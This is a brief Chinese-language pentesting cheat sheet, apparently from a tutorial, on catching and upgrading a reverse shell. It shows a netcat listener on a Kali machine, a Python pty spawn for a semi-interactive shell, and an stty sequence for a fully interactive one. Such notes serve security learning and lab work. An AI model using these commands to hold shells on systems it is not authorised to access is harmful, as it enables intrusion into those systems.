 监听端口

```shell
┌──(root㉿kali)-[~]
└─# nc -nvlp [port]
```

先半交互 Shell

```shell
root@debian:~# python -c 'import pty;pty.spawn("/bin/bash")'
```

再全交互 Shell

```shell
root@debian:~# stty raw -echo;fg;reset
```

